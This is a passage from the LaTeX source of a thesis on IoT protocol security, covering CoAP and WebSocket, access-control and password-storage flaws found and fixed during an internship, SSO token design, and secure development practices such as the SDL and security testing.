The least privilege principle is implemented from several years on UNIX like systems, recreating the same functionality is not an easy task and you should ask yourself if your application really need a privilege system that respect this principle.

\subsection{Use encrypted communication channel}
In order to minimize the number of attacks you should always use encrypted communication channel, most of the time
using an encrypted channel will not degrade the performance of your application.\\
The only boring thing about using secure protocol is the certificate, in order to establish a secure communication you should have
a certificate provided by a Certificate Authority, for debug purpose you can use a self signed certificate.\\

When performance is the goal and there is no way to introduce encryption without a great loss of performance it could make sense
to avoid encryption, but be sure that attackers cannot send or receive messages in the network where the unencrypted communication occurs.\\


	
	

\chapter{Conclusion}\label{ch:end}

In this last chapter, we recap our impressions on CoAP and WebSocket, in order to draw some conclusions; then, I describe my experience during the internship, which applications I worked on, which problems I noticed, how I fixed them and how I think we can improve the software development process from the security point of view.

\section{Considerations on the protocols}

Even if CoAP, at the moment, is not used in real world applications, we think it could be a good choice for a lots of IoT applications. The fact it is lightweight and connectionless makes it perfect for scenarios where the devices send data at
regular intervals. In these scenarios establishing a connection would be costly and useless, because it would be closed immediately after the data forwarding; on the other hand, mantaining a long lasting connection would drain the battery life of our devices.\\
The fact that CoAP easily translate to HTTP is surely valuable; web services are quite common in the IoT world and having
an easy way to interact with another protocol can speed up the development process.\\
The major drawback of CoAP is the fact that messages could be delivered out of order, but it can be bypassed by adding a 
timestamp to each message.\\
Due to the fact we are dealing with constrained devices, it is important to highlight that it is not obvious that every device
supports CoAP and its four security modes; for instance, a device might support just one or two modes. This drawback is not strictly related to the protocol itself, but we think that finding a good trade-off on the computational power of the device is crucial in order to support CoAP and keep the costs low.\\

WebSocket is quite common and its usage is very simple, due to the API exposed by browsers, which is intuitive.
While it is easy to use, at the same time it is also easy to misuse, and that could introduce flaws in an application.
Enforcing data validation should be always suggested in tutorials and reference manuals but, at the moment, most documentation found in
the Web does not cover the security aspects properly.\\
The only document that clearly enforces data validation is the RFC, but due to its technicality, it is not likely that
a developer, who only uses the protocol (and does not implement it), will read it.\\
Another thing we have noticed that there is no WebSocket server library that stands out from the others, basically there is
not a de facto standard or library that everyone suggests to use.\\
From the client side point of view the problem is the same, but if you use WebSocket as expected, you can use the embedded
protocol implemented by the browser vendors to bypass the problem.



\section{Internship}

During my internship at Abo Data I had the opportunity to work on different real world applications and I found some security problems that I fixed.\newline
In this section, I will not refer the applications with specific names in order to avoid disclosure of information that could damage Abo Data or its customers.\\

Application 1 is an IoT application, which manages railway networks. It currently handles network devices, but in the future it will also support devices like actuators to control the railway.
The application provides a dashboard that allows the user to control network devices: it is possible to read and edit a configuration.
The dashboard is implemented as a web application, in order to make it available even on mobile devices, because the customer needs
to work with this application even on the field.\newline
The application allows to create new networks, to monitor the actual state of the network, to check the last alarms (basically notifications from the network), perform query on the DB, restoring or exporting the DB and managing users (it is possible to create, delete and update a certain user).\\
Even if the application is in advanced state of development, from what I have heard, in future there will be added lots of new features.\\

Application 2 is another IoT application, which deals with fleet of vehicles and their tires. It is a large system developed by Abo Data and another important company.
This system allows to track vehicles and monitor their tires status, in order to provide data to the end user.\newline
The telemetry gathered from a vehicle includes: speed, location, engine parameters, G-force experience during cornering, braking and acceleration.\newline
This kind of information can be used to track the status of a vehicle, in order to verify if everything is working well and to avoid unwanted faults.\newline
All data is collected and stored on clouds and databases, in this way an user can review the data to make decisions; usually to reduce fuel consumption.\newline
This data can be used for a lot of different tasks: the end user can track his fleet of vehicles and monitor if everything is right, while the tire company can verify that the produced tires comply with the standard.\newline
This also allows us to talk about maintenance of vehicles and tires from a different point of view: from a time based
approach, where the vehicle and its tires are controlled every $X$ year, to a predictive based approach where the maintainer acts on the vehicle when the elaborated data allows him to predict a fault or imminent failure.\newline
The system works in this way: there are sensors placed on the vehicle, each sensor communicates (wireless) with a central control unit that collects their data, which is sent via a wireless channel to a remote server for processing.\\

I worked on a sub-system known as Single Sign On (SSO). This sub-system allows users to log into more than one system,
with only one set of credentials, with the help of a token.\newline
When I started my internship this sub-system was not ready, for this reason we focused on making it secure by design; this led us on working a bit more on the analysis of the sub-system, before starting with the real implementation in order to avoid the presence of security flaws that could be difficult to fix in future.\newline


\section{Problems detected in Application 1}
Application 1 had five important flaws:
\begin{enumerate}
	\item It trusted user input
	\item It did not check user privilege
	\item The passwords were stored with symmetric cryptography
	\item Passwords were handled as String
	\item It was vulnerable to DoS
\end{enumerate}

The first flaw allowed a malicious user to log into the system with higher privilege by simply changing a line of code in the JavaScript code on the client side.\newline
The system was designed in this way: the client sent username, password and the privilege level to the server. At the beginning the privilege level was set to 0, but if the login was successful it would replace it with the real privilege level of the user.\newline
The user's privilege level was needed on the client side in order to choose which options to show to the user, based on his actual privileges, so the application did not show all the features to every user, but they were available for use even if hidden.\newline
Of course, by setting the privilege level to the maximum, it was possible to access all the features of the application without restriction.\newline
All the functionalities, reserved to high privilege users, were available to everyone because on the server there was no check.\newline
Checks were on the client side, but by simply changing a line of code it was possible to bypass them, and the server trusted the input because it assumed that the client was not corrupt.\newline
In order to fix this flaw, the login method on the server was modified to load the data from the DB instead of trusting the one provided by the client.\newline

The second flaw is strictly related with the first one: since the server trusted the client, it did not check if the user had enough privilege to perform certain actions.\newline
Basically, the server received a request and performed it without checking who sent it.\newline
In order to fix this flaw it was necessary to add checking on top of each method that performed an action requiring a certain privilege.\newline
One side effect of this problem forced us to re-design the token management of the application because, during the login, the user was associated with the privilege level sent by the client, so adding the check was not enough. In fact if a malicious user logged into the system with an high privilege level, the server would have trusted him and would have associated a token with his fake privilege level.\newline
In order to make it work properly it was necessary to associate the privilege level saved in the database.\newline

The third flaw was the easiest to fix because it required changes only in one part of the code.\newline
The passwords were saved on the DB with the aid of symmetric cryptography; the encryption key was stored in a configuration file.\newline
Saving passwords in this way is not secure because symmetric cryptography is, by design, reversible; a password must be stored in a DB with the aid of a one way function, like a hash function or a key derivation function.\newline
To fix this flaw we replaced the symmetric cryptography algorithm with a key derivation function, the DB required some change in order to store the number of iteration and the salt.\newline

The fourth flaw was easy to fix because it required replacing String with array of chars; this change was needed in order to minimize the exposure of sensitive data and to reduce the success of cold boot attacks.\newline
Fortunately, the amount of code was limited, otherwise changing lots of occurrences would have been a mess.\\

The fifth flaw allowed a malicious user to perform a denial of service by exploiting a bug, which required the attacker to steal a connection
token. This was possible because the communication between client and server was not encrypted.\\
Even if this should suggest a session hijacking vulnerability, in reality it led us to a denial of service.\\
If the attacker stole the connection token of another user, and placed it in the client side code, it was possible
to perform a denial of service attack: the token of the legitimate user was removed from the server, and assigned to the malicious user.
Since the attacker had another associated token, and it is not possible to associate more than one token at the same time, the exception was left unhandled and the system was vulnerable; in order to fix this flaw we handled the exception and avoided the disconnection for the legitimate user.\\

These five flaws showed us that sometimes adding security to an application may be easy, but at the same time very difficult if some components are strictly related each other.\\

The system have a simple mechanism to avoid brute force attack, after three attempts the account under attack is locked and there is no way to access
until it is unlocked by an administrator.\\
From a point of view this seems like a reasonable solution, but take in mind that an attacker could try to lock all the accounts in order to carry out
a DoS (as counter measure there is a special administrator account that can not be locked).\\
Talking about XSS vulnerabilities, it seems like the system is not vulnerable and this is good. The application runs Angular, which is a
framework to develop single page web applications. Even if I do not really like it, because I think it is overly verbose and often makes simple tasks more complicated due to its impositions, it provides a dual-way data binding that takes care of preventing XSS vulnerabilities.\\
I tried several times to inject code, in order to discover vulnerabilities, but Angular always avoided my injections, since Angular
does not allow execution of inline JavaScript code.\\

The application uses WebSocket to communicate with the server, I have noticed that the \texttt{Origin} header is not used and neither the \texttt{Content-Security-Policy}. I was not able to exploit these little vulnerabilities, but it must be considered as a warning that something
should be fixed.\\
In the debug version, communications occur via an unencrypted channel, this means that a MitM can occur; on the other hand,
the deployed version uses HTTPS and secure WebSocket; this mean that the fifth flaw was easy to exploit only in the debug version.

\section{Design of Application 2}
As said, for Application 2 we focused more on the design phase: at the beginning the idea was to
store passwords with symmetric cryptography because there were no alternatives (as we know from the best practices, it is not a good idea to store password with this kind of cryptography), the external systems are not under our control so
it was not possible to use tools like OAuth.\\
Fortunately in the back-end of the application there was a function that allowed us to avoid to store the external systems' passwords,
for this reason our work focused on creating secure tokens, the tokens used in SSO are signed and an attacker cannot forge a fake one
without knowing the signing key.\\
The token is generated with the aid of a secure pseudo-random number generator and other data provided by the user: they are mixed in order to
create an array of bytes which will be the argument of the HMAC-SHA1 algorithm.\\
Unfortunately the key is stored in a plain text configuration file, we discussed how to store it in a secure way but this was the only feasible
solution; an HSM was not available, and storing the key in another machine was not feasible because it required a certificate in order to
secure the communication between the two servers.\\


\section{Analysis of the security aspect and conclusion}
During the internship I noticed that the security aspects, during the development of an application, are not as easy to meet as it may seem.\newline
From an academic point of view, making a secure application is the main goal, but from a business perspective, such a goal is not so easy to reach because there are other factors that must be kept in mind.\newline
If you are developing an application by yourself and for yourself, you have no deadlines, no customers to meet and no budget limitations.\newline
On the other hand, if you are working in a company, you are developing an application for a customer and you must take care of the:
\begin{itemize}
	\item Relationship with him
	\item Deadlines
	\item Support for the application after the release
\end{itemize}

In order to maintain a solid relationship with your costumer, deadlines must be respected, and here the development of the application comes to play; including security in the development of an application may seems easy at the beginning, but it is not so simple and it may cost a lot sometime. When there is a deadline, the goal is to finish the job no matter what.\newline
This is one reason why some developers simply avoid security aspects during the development of an application.\newline

Another reason is about money: some customers are not interested or not even aware about security issues that an application could have, so they are simply not interested in paying for it, but when a security problem occurs they will surely come yelling at you.\newline
In this case, I think that if you could add security to an application and the time spent is equal to the time spent in making the same thing in an insecure way, then I suggest you to go for the secure way.\newline
Of course if something requires lots of time, talk about it with the customer and convince him to pay for the additional security features.\newline
Usually, when company A sells an application to company B, company A provides technical support for a certain period of time; this means that company A must adjust the software if something is not working properly, and it should provide updates.
If there is no time to add a certain feature on the first release, it could be added later with an update.\newline

During the development of software, it is common that the development team adopts certain software development process; Abo Data adopted an agile software development process.\newline
From what I have noticed it is the right choice because the application requirements are changing frequently, but from the security point of view I think it is a bit problematic and could lead to flaws in the code.\newline
The security part on an application should be defined in a way that allows the development team to edit it at least as possible.\newline

The security part should also be developed with particular care in order to be easily updated in the future; suppose that the hashing algorithm employed in your application becomes insecure for some reasons, then you should update your application, but of course an update has a cost and requires a certain amount of time in order to be completed. If the code is monolithic it will be difficult and expensive to update, on the other hand if the code is modular it will be simpler.\newline
Another thing to take in mind is that in the IoT world we also deal with constrained devices, if for some reason you need to change the algorithm to a new one, then you should check if your constrained devices are capable of handling the new algorithm, otherwise you should stick with the old algorithm or use more powerful devices. Of course, you have to find a trade-off.\newline
From my experience I noticed that implementing a security feature or fixing security flaws is difficult in software that is in an advanced stage of development, it may require substantial changes to the whole project, and this could slow down the development and it could be difficult to meet the deadline.\newline
Basically, security should be part of the application since the requirements phase, or big problems will emerge later on.\newline

In order to produce a secure software we must focus on two aspects: the development process and software security testing.\\
Talking about the development process, there are established methodologies like the Security Development Lifecycle (SDL) proposed by Microsoft~\cite{microsoftsdl} which provide a standard approach for security development.\\
SDL introduces some stages in the classic software development life cycles which consists of:
\begin{itemize}
	\item Requirements
	\item Design
	\item Implementation
	\item Verification
	\item Release
	\item Response
\end{itemize}
Of course, the stages we will discuss soon can be added in different software development methodologies without problems.\\
During the requirements phase, the best practices for security are integrated, they come from industry standard or from
solution adopted on responses to problems addressed in the past.
In this phase the functional security requirements are defined in order to be implemented in the final software, 
these requirements are exactly the same used to define the features of an application, they only focus on the security front.\\
If the methodology is agile, then the requirements are expressed as user stories, in this case these stories concern the security aspects from the user's point of view.\\

During the design phase a threat model is defined in order to define how a system will be attacked. Of course, this
activity must occur before the implementation, otherwise it will not be effective.\\
The threat model is used to understand the attack surface of a certain features and what are the common attacks that
the development team must face.\\
It is also important to define a way to mitigate the problem if a certain attack occurs, and it is crucial to identify
security issues early on.\\

The implementation phase is surely the most difficult one because writing secure code is difficult, and even if you have
a security team that take care of the most important part of the application, nothing can prevent a normal programmer to introduce a security bug in a part of the application that is considered not critical.\\
It is important to define coding guideline in a similar way to best practices in order to avoid mistakes by programmers.\\
It is also important to use tools for static and dynamic application security testing (SAST and DAST), the first one is used to
identify potential vulnerabilities in the source code, while DAST checks the application at runtime.\\

During the testing phase, in addition to the standard test on the application, we should perform other activities like:
security functional testing, vulnerability scanning and penetration testing.\\ 

When the software is finally released, it is shipped to customers or made available for download; of course there will be
problems, but if everything was properly done they should have been minimized.\\
During the final response phase, the customer will notify problems occurred with the application in order to receive
an update that fixes them.\\

About security testing there is a lot to say because it covers different activities, but we just give you a small overview:
\begin{itemize}
	\item Discovery - this activity does not search flaws in the code, but it only focuses on identifying the version of software in use, this is important because by the version number we can discover potential vulnerabilities.
	\item Vulnerability scan - this activity is carried out with automated tools that search for
	known vulnerabilities in the application.
	\item Penetration test - it is a simulation of an attack, it tries to exploit flaws in the application like a real attacker would.
	\item Security Review - verifies if security standards have been applied to the system; it is
	done via analysis of code and different versions of the program.
\end{itemize}


Security testing can be conducted in a black box way, where the tester does not know details of the system and the architecture behind it; or
in a white box settings where the tester has deep knowledge of the system and he may have access to the source code.\\
Due to the fact that each application is different, the security testing technique should adapt to the application taken under examination in order
to be as accurate as possible; for instance if you are testing a web application client side, it is not likely you will find a buffer overflow, but 
an XSS is more likely.\\

Of course, security testing is quite more difficult compared to standard testing (that is, by itself, a difficult task), for this reason companies prefer to avoid it or pay third parties that are specialized in this particular activity.\\
Take also in mind that security testing may not provide you all the vulnerabilities in your system, but only a certain amount; for this reason it
is important to take care about your software periodically; when you change a part of your application, you should check that changes do not
introduce flaws.\\

Another aspect of security, we did not mention in this thesis, is privacy; even if security and privacy are two distinct concepts, they are related because without security there is no privacy, I think it is important to discuss it a bit due to the fact that the General Data Protection Regulation (GDPR)
has been recently approved by the European commission, in order to strength the protection of personal data of citizens of the European Union.\\
This new regulation should allow citizens to have more control over their data and it should also make sure that companies implement secure system
in order to avoid data breaches, considering that there are fines if a company does not notify the supervisory authority within 72 hours after becoming aware of the leak; this is also enforced by Article 25 that requires data protection to be designed into the development of business processes~\cite{wikica}.\\
The GDPR takes also into consideration the trade of data between companies, an hot topic due to recent events~\cite{ca}.\\


We would like to highlight that even documentation and refactoring are important while dealing with security; most of the time documentation is neglected because it takes lot of time and is not paid by the customer. Working on a big project for long time
requires good documentation to understand the purpose of certain code and avoid the introduction of flaws.\\
Talking about refactoring, it is extremely important because it reduces the amount of lines of code and
avoids absurd copy-and-paste of code; suppose that a particular piece of code is vulnerable and it is executed
before every method in your code, if you refactored your code well, then you will need to fix your code only once, otherwise
if you applied the copy-and-paste ``technique'' you will need to fix the code before every function, and it is likely that you will forget some occurrences and the flaw will remain in your code; for this reason refactoring is extremely important.\\
Thus even the maintenance of software plays an important role on its security and this should make us consider that every
aspects in software development, even little details, should be treated with particular care in order to produce secure software.

	
	\bibliography{tesiref} 
	\bibliographystyle{ieeetr}
	
\end{document}